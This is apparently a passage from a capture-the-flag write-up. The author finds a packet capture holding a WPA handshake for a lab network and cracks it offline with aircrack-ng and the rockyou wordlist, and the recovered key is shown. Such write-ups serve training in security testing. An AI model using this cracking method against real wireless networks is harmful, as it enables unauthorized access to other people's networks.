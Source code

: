 ```bash
$ ls -al /home/zeus/airgeddon/captured
total 304
drwxr-xr-x 1 zeus zeus   4096 Apr  8 17:31 .
drwxr-xr-x 1 zeus zeus   4096 Apr  8 10:56 ..
-rw-r--r-- 1 zeus zeus 297917 Apr  8 12:48 captured.cap
-rw-r--r-- 1 zeus zeus     57 Apr  8 17:30 papyrus.txt
```

The file `papyrus.txt` contains the following text: `Captured while flying. I'll banish him to Olympia - Zeus`

```bash
$ file captured.cap
captured.cap: tcpdump capture file (little-endian) - version 2.4 (802.11, capture length 65535)
```

Therefore, I downloaded it to my system for further analysis. `aircrack-ng` shows that the dump contains a WPA handshake of teh network `Too_cl0se_to_th3_Sun`. I cracked the WLAN password using `aircrack-ng` with the rockyou wordlist:

```bash
$ aircrack-ng -w /usr/share/wordlists/rockyou.txt captured.cap
	  Opening captured.cap
	  Read 6498 packets.
	  
	     #  BSSID              ESSID                     Encryption
	  
	     1  F4:EC:38:AB:A8:A9  Too_cl0se_to_th3_Sun      WPA (1 handshake)
	  
	  Choosing first network as target.
	  
	  Opening captured.cap

	  <snip>

	  [00:44:09] 5306024/9822768 keys tested (1501.99 k/s)

      Time left: 50 minutes, 9 seconds                          54.02%

                        KEY FOUND! [ flightoficarus ]


      Master Key     : FA C9 FB 75 B7 7E DC 86 CC C0 D5 38 88 75 B8 5A
                       88 3B 75 31 D9 C3 23 C8 68 3C DB FA 0F 67 3F 48

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00

      EAPOL HMAC     : AC 1A 73 84 FB BF 75 9C 86 CF 5B 5A F4 8A 4C 38
```
